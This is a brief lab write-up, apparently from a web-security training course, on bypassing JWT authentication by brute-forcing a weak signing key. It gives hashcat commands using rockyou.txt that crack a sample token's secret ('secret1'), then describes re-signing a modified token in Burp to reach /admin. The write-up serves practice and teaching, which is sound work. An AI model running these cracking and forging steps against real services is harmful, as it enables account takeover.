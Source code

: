 # Lab: JWT authentication bypass via weak signing key
---
In burpsuite we install "JSON Web Token" and "jwt editor"

It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a wordlist of common secrets.

Target: o solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at /admin, then delete the user carlos.

https://0a13003a04a319ef805b44e90009003a.web-security-academy.net/admin

We copy the jwt into the "firma.txt" file

hashcat --help | grep JWT

hashcat -m 16500 --force -a 0 firma.jwt /usr/share/wordlists/rockyou.txt 

hashcat -m 16500 --force -a 0 firma.jwt /usr/share/wordlists/rockyou.txt --show => eyJraWQiOiI2M2EzMzQ0OS01NjJjLTQ0NDQtOTJlOC1lNTYzZGZlMWY5NWEiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0ODU0MjgwMCwic3ViIjoid2llbmVyIn0.F3VAqmnu0R72aLdOSy4Hdz-amUFSQAYRQ0ofq_m7uog:secret1

---

### In this screenshot we write the secret key in recalculate signature
![image](https://github.com/user-attachments/assets/08108748-3301-4363-93bb-313c58c6a9fe)

---


